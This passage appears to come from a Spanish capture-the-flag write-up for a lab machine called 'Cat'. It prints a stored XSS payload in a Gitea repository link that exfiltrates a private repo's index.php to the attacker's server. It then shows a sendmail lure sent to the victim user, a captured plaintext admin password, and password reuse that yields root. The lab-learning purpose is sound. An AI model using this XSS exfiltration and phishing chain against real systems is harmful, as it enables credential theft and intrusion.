Dado que estamos explorando la vulnerabilidad de **XSS** y exfiltración de datos, es importante considerar que el repositorio de Gitea de **Employee Management** podría contener más archivos que podrían ser útiles para nuestra explotación. Como **están desarrollando un sistema de gestión de empleados** (según el correo de Rosa), es probable que haya otros archivos en el repositorio de **Gitea** que contengan información sensible, como configuraciones, contraseñas o incluso detalles de la implementación del sistema.

En base a lo que vimos en el sitio de **concurso de gatos** en `http://cat.htb`, donde las páginas estaban hechas con **PHP**, se nos ocurrió que quizás en la ruta de **Gitea de Administrator** para **Employee Management** haya un archivo `index.php`. Si existe, este archivo podría ser un punto de entrada interesante para continuar con la explotación de la vulnerabilidad.

Si **index.php** está presente en el repositorio, podría estar configurado para servir páginas dinámicas, contener información de otros archivos, etc. Explotando el XSS, podemos dirigir el navegador de Jobert a una página específica del repositorio, como la de `index.php`, y desde ahí intentar inyectar código o exfiltrar datos adicionales.

Por lo tanto, el siguiente paso sería verificar si **index.php** existe en la ruta mencionada, ya que esto nos brindaría más oportunidades para **profundizar en la explotación** de la vulnerabilidad y obtener información adicional o incluso ejecutar código remoto.

Crearemos un nuevo repositorio que haga la exfiltración del archivo `index.php` hacía nuestro servidor de atacante.

```javascript
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.16.5/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">gzzcoo</a>
```

<figure><figcaption></figcaption></figure>

Nuevamente volveremos a enviar un correo a `jobert@localhost` para que visualice nuestro repositorio que contiene el payload malicioso.

```bash
axel@cat:~$ echo -e "Subject: Repo \n\nHi check my repo http://localhost:3000/axel/gzzcoo" | sendmail jobert@localhost
```

Verificamos en nuestro servidor web que recibimos nuevamente datos, en este caso, de la página `index.php`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [05/Feb/2025 03:47:07] "GET /?response=%3C%3Fphp%0A%24valid_username%20%3D%20%27admin%27%3B%0A%24valid_password%20%3D%20%27IKw75eR0MR7CMIxhH0%27%3B%0A%0Aif%20(!isset(%24_SERVER%5B%27PHP_AUTH_USER%27%5D)%20%7C%7C%20!isset(%24_SERVER%5B%27PHP_AUTH_PW%27%5D)%20%7C%7C%20%0A%20%20%20%20%24_SERVER%5B%27PHP_AUTH_USER%27%5D%20!%3D%20%24valid_username%20%7C%7C%20%24_SERVER%5B%27PHP_AUTH_PW%27%5D%20!%3D%20%24valid_password)%20%7B%0A%20%20%20%20%0A%20%20%20%20header(%27WWW-Authenticate%3A%20Basic%20realm%3D%22Employee%20Management%22%27)%3B%0A%20%20%20%20header(%27HTTP%2F1.0%20401%20Unauthorized%27)%3B%0A%20%20%20%20exit%3B%0A%7D%0A%0Aheader(%27Location%3A%20dashboard.php%27)%3B%0Aexit%3B%0A%3F%3E%0A%0A HTTP/1.1" 200 -
```

Al descodificar el contenido recibido, comprobamos que aparece el usuario `admin` con sus credenciales en texto plano.

<figure><figcaption></figcaption></figure>

Intentamos verificar si estas credenciales encontradas se reutilizaban para el usuario `root` y comprobamos que efectivamente ganamos acceso con dicho usuario. También logramos visualizar la flag de **root.txt**.

```bash
axel@cat:~$ su root
Password: 
root@cat:/home/axel$ cd /root
root@cat:~$ cat root.txt 
7127705b521d*********************
```
